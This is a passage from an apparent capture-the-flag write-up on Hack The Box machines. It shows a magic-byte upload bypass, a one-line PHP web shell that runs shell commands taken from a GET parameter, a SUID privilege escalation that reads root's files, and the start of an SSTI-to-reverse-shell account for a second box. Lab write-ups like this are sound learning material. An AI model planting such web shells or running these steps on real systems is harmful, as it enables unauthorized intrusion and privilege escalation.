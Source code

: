 ```php
/* Check MagicBytes MZ PEFILE 4D5A*/
$F=fopen($tmp_location,"r");
$magic=fread($F,2);
fclose($F);
$magicbytes = strtoupper(substr(bin2hex($magic),0,4)); 
error_log(print_r("Magicbytes:" . $magicbytes, TRUE));

/* if its not a PEFILE block it - str_contains onlz php 8*/
//if ( ! (str_contains($magicbytes, '4D5A'))) {
if ( strpos($magicbytes, '4D5A') === false ) {
	echo "Error no valid PEFILE\n";
	error_log(print_r("No valid PEFILE", TRUE));
	error_log(print_r("MagicBytes:" . $magicbytes, TRUE));
	exit ();
}
```

Something interesting we found in `upload.php` is that it would block any file that didn't have the `4D5A` magic bytes in it. So this exploit was relatively straightforward, upload a script that contains `4D5A` at the start and get RCE. Through that we were able to get a web shell with this:

```php
MZ<?php echo shell_exec($_GET['cmd'].' 2>&1'); ?>
```

But really, I'm sure we could've used anything as long as we accepted a GET request with any parameter and passed that to something like `system()` for instance.

#### Privilege escalation

With that little web shell we were able to get a reverse shell and become the www-data user. From there we quickly checked `SUID` (commands that get ran by the owner of the file no matter who executes them) with `find / -perm /4000 2>/dev/null` and found `/opt/fileS`. After playing with it for a little while we could see it behaved exactly like the `find` command. So we took a trip to our friend [gtfobins](https://gtfobins.github.io/gtfobins/find/) and found several ways to execute whatever commands we wanted as root! Since he was the owner of the `/opt/fileS` file, anything we would run with that command would be executed as root, so we were easily able to get the flag with `/opt/fileS . -exec /bin/cat /root/root.txt -p /; -quit` (don't remember if that's actually where the file was located but you get the point)

### Sightless -- SSRF leading to root!

I followed a walkthrough from [IppSec](https://www.youtube.com/@ippsec) for this one, it's by far the most complex box I did that week. But it's an easy one according to HTB ratings.

#### Enumeration

In terms of enumeration, there wasn't anything crazy to do as the sqlpad instance was quite obviously displayed on the front page of this website. 

#### Foothold

There was a CVE affecting the sqlpad version they were running that allowed us to do an SSTI so we got a reverse shell through that, in there we got dropped in a docker container which is what the sqlpad instance is running in. Inside that container we were able to cat the `/etc/passwd` and it actually revealed a user from the host machine funnily enough, called `benjamin`
